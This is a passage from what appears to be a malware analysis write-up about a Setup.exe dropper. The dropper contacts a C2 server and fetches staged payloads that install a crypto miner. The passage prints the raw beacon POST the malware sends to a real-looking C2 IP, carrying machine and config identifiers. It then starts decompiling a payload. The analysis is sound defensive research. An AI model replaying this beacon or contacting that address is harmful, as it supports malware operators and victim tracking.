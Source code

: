 The first request to `http://45.15.156.31/` seems to be [a manifest](manifest.txt) of sorts. The raw request looks like

```
POST http://45.15.156.31/ HTTP/1.1
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=utf-8
User-Agent: TakeMyPainBack
Host: 45.15.156.31
Content-Length: 93
Connection: Keep-Alive
Pragma: no-cache

machineId=331ea7d1-d63d-4869-8997-455c73700aab|user&configId=55141fdba30e9c28fe0ae2e082b22897
```
> lol'd at the User-Agent

Looks like Setup.exe makes a request to the C2, and downloads a fresh copy of the next stage's payloads. One payload downloads an additional payload and then finally that payload downloads the miner.

## 'Task24Main'

Since we already generally know what Setup.exe does, I decided to focus on the payload that was obviously doing the 'important work' of setting up the crypto miner. Using ILSpy on the original binary we're greeted with this awful mess.

![](ugly.png)
